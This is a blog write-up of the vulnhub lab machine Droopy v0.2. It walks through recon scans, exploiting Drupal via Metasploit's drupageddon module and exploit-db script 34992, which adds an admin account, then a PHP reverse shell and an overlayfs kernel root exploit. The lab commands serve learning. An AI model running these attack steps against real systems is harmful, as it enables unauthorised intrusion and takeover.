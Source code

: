 ```yaml
---
layout: post
title: "Droopy:V0.2"
date: 2016-08-01 10:57:14 -0500
comments: true
categories: [vulhub, drupal]
---
```


###Tools:

* netdiscover
* Nmap
* Wfuzz
* Nikto
* Metasploit 
* droopescan


###Vulnerabilities:
* [Drupal HTTP Parameter Key/Value SQL Injection](https://www.exploit-db.com/exploits/34992/)
* [Linux Kernel 3.13.0 < 3.19 'overlayfs' Local Root Shell](https://www.exploit-db.com/exploits/37292/)

<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.41.0/24`
{% img  /images/blog/vulhub/drooy2/Selection_001.png   [title manually exploit [alt text]] %}

192.168.41.155 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.41.155 -p-`

{% img  /images/blog/vulhub/drooy2/Selection_002.png   [title manually exploit [alt text]] %}

Only port 80 is opening.

use nikto to scan

`nikto -h 192.168.41.155`	

{% img  /images/blog/vulhub/drooy2/Selection_003.png   [title manually exploit [alt text]] %}

No useful info come out.

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.41.155/FUZZ 2>/dev/null
```


{% img  /images/blog/vulhub/drooy2/Selection_004.png   [title manually exploit [alt text]] %}

still same thing.

check the http://192.168.41.155

{% img  /images/blog/vulhub/drooy2/Selection_005.png   [title manually exploit [alt text]] %}

Find the target use `Drupal`

### Use Metasploit

in msfconsole, search drupal, find an interesting exploit `exploit/multi/http/drupal_drupageddon`


```
msf > use exploit/multi/http/drupal_drupageddon
msf exploit(drupal_drupageddon) > set rhost 192.168.41.155
msf exploit(drupal_drupageddon) > exploit 

```
{% img  /images/blog/vulhub/drooy2/Selection_006.png   [title manually exploit [alt text]] %}

get meterpreter, do command `shell` to get shell.

use `python -c 'import pty; pty.spawn("/bin/bash")'` get bash

user is www-data, next try to get root

`uname -a`

`Linux droopy 3.13.0-43-generic #72-Ubuntu SMP Mon Dec 8 19:35:06 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux`

the kernel is 3.1.30

`searchsploit 3.1.30`

{% img  /images/blog/vulhub/drooy2/Selection_007.png   [title manually exploit [alt text]] %}

upload the exploit, compile and run it, get the root:

{% img  /images/blog/vulhub/drooy2/Selection_008.png   [title manually exploit [alt text]] %}


### Another way

use droopescan to scan

`droopescan scan drupal -u http://192.168.41.155/ -t 8`

{% img  /images/blog/vulhub/drooy2/Selection_009.png   [title manually exploit [alt text]] %}

now I know the version is 7.30

`searchsploit drupal`

find the 34992.txt exploit works.

{% img  /images/blog/vulhub/drooy2/Selection_010.png   [title manually exploit [alt text]] %}

`./34992.py -t http://192.168.41.155 -u test -p test`

{% img  /images/blog/vulhub/drooy2/Selection_011.png   [title manually exploit [alt text]] %}


this exploit creates an admin account test/test, then in `Modules`, make sure the `PHP filter` is selected.

{% img  /images/blog/vulhub/drooy2/Selection_012.png   [title manually exploit [alt text]] %}

Also in `People` -> `Permissions`, check `Use the PHP code text format`

{% img  /images/blog/vulhub/drooy2/Selection_013.png   [title manually exploit [alt text]] %}


In  `configuration` -> `Content authoring` -> `Text formats`,  need to check administrator box.


{% img  /images/blog/vulhub/drooy2/Selection_014.png   [title manually exploit [alt text]] %}

Then create a new content (copy and paste reverse shell php code) and use PhP Code in the format, save it, then netcat will get the shell.

{% img  /images/blog/vulhub/drooy2/Selection_015.png   [title manually exploit [alt text]] %}


Then use same method in the first part of this post to get the root.

DONE





